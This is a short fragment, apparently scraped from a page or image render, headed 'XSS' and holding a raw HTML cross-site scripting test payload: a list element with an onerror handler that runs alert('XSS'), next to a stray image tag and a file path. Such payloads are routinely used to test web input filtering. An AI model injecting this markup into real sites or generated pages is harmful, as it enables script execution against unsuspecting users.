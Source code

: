 XSS<ul><li>XSS

<img src="x" style="max-width:100%;"></a><li style="list-style:url()" onerror="alert('XSS')"> 